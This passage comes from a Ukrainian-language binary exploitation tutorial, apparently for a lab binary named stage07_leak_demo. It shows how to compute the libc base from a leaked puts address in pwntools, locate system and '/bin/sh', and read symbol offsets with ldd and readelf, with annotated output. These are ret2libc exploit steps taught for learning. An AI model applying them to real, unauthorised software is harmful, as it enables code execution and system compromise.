```python
libc.address = leaked_puts - offset_puts
# libc.address тепер = 0x7ffff7a00000

# ВСІ адреси автоматично оновлюються!
system_addr = libc.symbols['system']    # 0x7ffff7a50d70
binsh_addr = next(libc.search(b'/bin/sh\x00'))  # 0x7ffff7b98e1a
```

## 🔍 Як знайти offset в libc? (ДЕТАЛЬНО)

### Метод 1: readelf (покрокова інструкція)

**Крок 1: Знайти який libc використовує програма**
```bash
ldd ../build/stage07_leak_demo
```

**Вивід:**
```
linux-vdso.so.1 (0x00007ffff7fc8000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7a00000)
        └────────────────────┬─────────────────────┘
                     Ось цей файл!
```

**Крок 2: Витягти таблицю символів**
```bash
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep " puts@@"
```

**Повний вивід:**
```
  1317: 00000000000809c0   456 FUNC    GLOBAL DEFAULT   14 puts@@GLIBC_2.2.5
  │      │                  │   │       │       │        │  │
  │      │                  │   │       │       │        │  └─ Назва + версія
  │      │                  │   │       │       │        └─ Номер секції
  │      │                  │   │       │       └─ Видимість
  │      │                  │   │       └─ Binding (GLOBAL)
  │      │                  │   └─ Тип (FUNC = функція)
  │      │                  └─ Розмір (456 байт)
  │      └─ VALUE (OFFSET) = 0x809c0  ◄── ОСЬ!
  └─ Symbol table entry number
```

**У Python:**
```python
offset_puts = 0x809c0  # Hex число
```

**Крок 3: Знайти інші корисні функції**
```bash
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep -E " (puts|system|execve|open|read|write)@@"
```

### Метод 2: pwntools (НАЙПРОСТІШИЙ)
